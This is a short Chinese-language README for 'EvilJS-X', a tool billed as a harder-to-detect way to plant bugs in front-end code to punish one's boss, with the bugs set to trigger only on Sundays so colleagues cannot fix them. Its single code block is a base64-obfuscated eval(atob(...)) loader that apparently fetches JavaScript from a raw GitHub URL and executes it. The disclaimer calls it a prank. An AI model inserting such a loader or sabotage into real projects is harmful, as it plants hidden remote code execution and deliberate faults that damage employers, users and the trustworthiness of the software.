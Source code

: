 # EvilJS-X
EvilJSx————更好用，更狠毒，更难发现！让黑心老板接受BUG的洗礼！

改进点：
1. 所有BUG只在周日生效，彻底避免同事修复BUG的可能！

注意：目前不适用于nodejs，只适用于前端
## 引入方法
核心引入Boot：
```
eval(atob("KCgpPT57dm9pZCgwKTtldmFsKCcoKCk9PntmZXRjaChldmFsKGF0b2IoIkltaDBkSEJ6T2k4dmNtRjNMbWRwZEdoMVluVnpaWEpqYjI1MFpXNTBMbU52YlM5amJ5SSIrYXRvYigiY2xkNVNtMVpWMnh6U1dsM2FVbHNNV0pOVmpCeVNXMDFNR0ZZVm5WaFdGSTFUREoiK1siIisiIiwiM2FVbHNNV0oiXVswXSsiV01tRlhkM1JoYmsxMlkyMVdiV041T1c5YVYwWnJTV2wwYUdSSE9RPT0iKSsiaUtDSmplVGwwV1Zkc2RVd3lUblppV0VKd1lrZFdhMHh0Y0hvaUtRPT0iKSkpLnRoZW4oKGUpPT57cmV0dXJuIGUudGV4dCgpfSkudGhlbigodHh0KT0+e2V2YWwodHh0KX0pfSkoKScpfSkoKQ=="))
```
至于怎么用，不用我多说了吧

## 免责声明

本程序仅供整蛊娱乐，禁止在实际业务应用中引入
